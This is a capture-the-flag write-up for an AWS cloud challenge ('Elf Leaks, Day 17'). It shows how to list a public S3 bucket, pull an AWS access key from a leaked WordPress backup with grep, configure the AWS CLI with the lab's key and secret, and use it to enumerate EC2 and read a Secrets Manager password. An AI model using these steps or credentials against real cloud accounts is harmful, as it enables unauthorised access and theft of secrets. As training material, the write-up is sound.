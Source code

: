 ```yaml
---
title: Elf Leaks (Day 17)
sidebar_position: 18
---
```

## Topic: Cloud
This challenge involved investigating AWS infrastructure used by an organization.  
Went to the bucket `https://s3.amazonaws.com/images.bestfestivalcompany.com` to find a list of what files are accessible.  

### Questions:
1. What is the name of the S3 Bucket used to host the HR Website announcement?  
answer: `images.bestfestivalcompany.com`   
2. What is the message left in the flag.txt object from the bucket?  
answer: `It's easy to get your elves data when you leave it so easy to find!`   
3. What other file in that bucket looks interesting to you?  
answer:`wp-backup.zip`   
4. What is the AWS Access Key ID in that file?  
answer:`AKIAQI52OJVCPZXFYAOI`   
file: `wp-config.php`   
command: `grep -nr "AKIA" .`   
5. What is the AWS Account ID that access-key works for?  
answer: `019181489476`    
config:  
```
/usr/local/bin/aws configure
AWS Access Key ID [****************YAOI]: AKIAQI52OJVCPZXFYAOI
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```   
command: `/usr/local/bin/aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI`   
6. What is the User for that access-key?  
command: `/usr/local/bin/aws sts get-caller-identity`   
answer: `ElfMcHR@bfc.com`   
7. There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance?  
answer: `HR-Portal`  
command: `/usr/local/bin/aws ec2 describe-instances --output text`   
8. What is teh database password stored in Secrets Manager?  
answer: `Winter2021!`  
command: `/usr/local/bin/aws secretsmanager get-secret-value --secret-id HR-Password --region eu-north-1`   